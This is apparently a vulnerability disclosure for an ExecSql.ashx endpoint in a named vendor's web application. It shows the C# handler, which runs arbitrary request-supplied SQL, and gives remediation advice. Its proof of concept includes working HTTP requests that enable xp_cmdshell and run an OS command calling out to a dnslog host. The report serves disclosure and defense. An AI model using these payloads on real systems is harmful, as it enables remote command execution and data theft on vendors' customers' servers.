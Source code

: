 ![image-20250225201502002](./assets/image-20250225201502002.png)

# Vulnerability Report
## Vendor Homepage
http://www.zzskzy.com/

## Title:
Arbitrary Code Execution in ExecSql.ashx Endpoint

### Summary:
The ExecSql.ashx endpoint of the vendor's application is vulnerable to arbitrary code execution, allowing attackers to execute malicious SQL commands on the underlying database server.

### Affected Endpoint:
ExecSql.ashx

### Vulnerability Type:
Arbitrary Code Execution (ACE)

### Vulnerable Code:
```c#
public class ExecSql : IHttpHandler {

    public void ProcessRequest (HttpContext context) {
        context.Response.ContentType = "text/plain";
        JsonStr jsonResult = new JsonStr();
        try
        {
            String s = context.Request.Headers.ToString();//获得通过HTTP协议协议头传过来的的json数据
            String objStr = HttpUtility.UrlDecode(Utils.GetParamJson(s), Encoding.UTF8);
            Log.Debug("执行sql", objStr);
            if (objStr.Length == 0)//objStr.Length == 0
            {
                jsonResult.Msg_code = ReturnCode.paramater_error;
                jsonResult.Msg_info = "[]";
            }
            else
            {
                try
                {
                    var Paramater = JsonConvert.DeserializeObject<dynamic>(objStr);
                    string sqlStr = Paramater.sqlStr;   //任意sql语句执行
                        
                    var sql = new SqlRun.DBAccess(SqlRun.DBAccess.sqlstr);
                    var dtKey = sql.RunProcedureDR(sqlStr);
                    var ds = new DataSet();
                    ds.Tables.Add(dtKey);
                    jsonResult.Msg_code = ReturnCode.pass;
                    jsonResult.Msg_info = JsonToAndToJson.ToJson(ds);
                }
                catch (Exception ex)
                {
                    jsonResult.Msg_code = ReturnCode.paramater_text_error;
                    jsonResult.Msg_info = "[{\"error\":\"" + ex.Message + "\"}]";
                    Log.Error("error", ex.Message);
                    context.Response.Write(jsonResult.GetJonStr());
                    return;
                }
            }
        }
```

### Proof of Concept (PoC):
1. Send a POST request to the ExecSql.ashx endpoint with the following payload:
```
POST /jk/ExecSql.ashx HTTP/1.1
Host: yourapiendpoint.com
Content-Type: application/json
Content-Length: 47

{
  "sqlStr": "EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;"
}
```

2. Send another POST request to the ExecSql.ashx endpoint with the following payload:
```
POST /jk/ExecSql.ashx HTTP/1.1
Host: yourapiendpoint.com
Content-Type: application/json
Content-Length: 47

{
  "sqlStr": "exec master..xp_cmdshell 'ping 952eb654.log.dnslog.myfw.us.'"
}
```

![image-20250225205003552](./assets/image-20250225205003552.png)

### Impact:

An attacker can exploit this vulnerability to execute arbitrary SQL commands on the server, potentially leading to data leakage, data manipulation, or unauthorized access.

### Recommendation:
1. Sanitize and validate user inputs to prevent SQL injection attacks.
2. Avoid executing user-supplied SQL commands directly on the database.
3. Implement least privilege access controls to limit the capabilities of the database user account used by the application.

### Conclusion:
The ExecSql.ashx endpoint in the vendor's application is susceptible to arbitrary code execution, posing a significant security risk. It is crucial for the vendor to address this vulnerability promptly to protect the integrity and confidentiality of their users' data.

### References:
- OWASP SQL Injection Prevention Cheat Sheet: https://owasp.org/www-community/Preventing_SQL_Injection_in_ASP.NET
- Microsoft Documentation on SQL Injection: https://docs.microsoft.com/en-us/previous-versions/msp-n-p/ff648339(v=pandp.10)

